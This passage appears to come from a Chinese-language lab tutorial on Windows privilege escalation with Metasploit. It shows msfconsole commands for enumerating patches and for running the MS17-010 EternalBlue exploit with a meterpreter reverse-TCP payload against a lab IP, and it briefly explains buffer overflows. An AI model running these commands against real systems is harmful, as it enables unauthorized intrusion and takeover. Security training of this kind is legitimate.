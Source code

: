 ```
use    post/windows/gather/enum_patches     ###查看补丁信息
use    exploit/winodws/xxxxxxxxxxxxxxx      ###根据具体的补丁信息来使用具体的payload荷载
set    session     会话数                    ###设置之前的shell会话数
```













### 溢出漏洞模块提权

```
一般来说webshell对应的web服务的权限是很低的，一般都是user权限的，但也遇到过某些服务器执行后就直接是system最高权限。像这种情况一般直接加用户。如果权限较低，我们要把它提升到system权 - Windows最高权限，黑客一般通过提权的EXP程序进行提权，我们会在后续的实验里介绍。
当然，在MSF下调用溢出漏洞模块提权也是个好办法。
缓冲区溢出：
缓冲区是用户为程序运行时在计算机中申请的一段连续的内存，它保存了给定类型的数据。缓冲区溢出指的是一种常见且危害很大的系统攻击手段，通过向程序的缓冲区写入超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈，使程序转而执行其他的指令，以达到攻击的目的。更为严重的是，缓冲区溢出攻击占了远程网络攻击的绝大多数，这种攻击可以使得一个匿名的Internet用户有机会获得一台主机的部分或全部的控制权！由于这类攻击使任何人都有可能取得主机的控制权，所以它代表了一类极其严重的
```

由于目标主机开放139,445端口，可能存在ms17-010漏洞，这里用相关模块对其进行攻击

```
use   exploit/windows/smb/ms17_010_eternablue

set    payload   windows/x64/meterpreter/reverse_tcp

set     rhosts     172.16.243.131
```

 

ms17-010漏洞利用成功，管道打开，建立连接

![image-20210811135444282](msf提权.assets/image-20210811135444282.png)
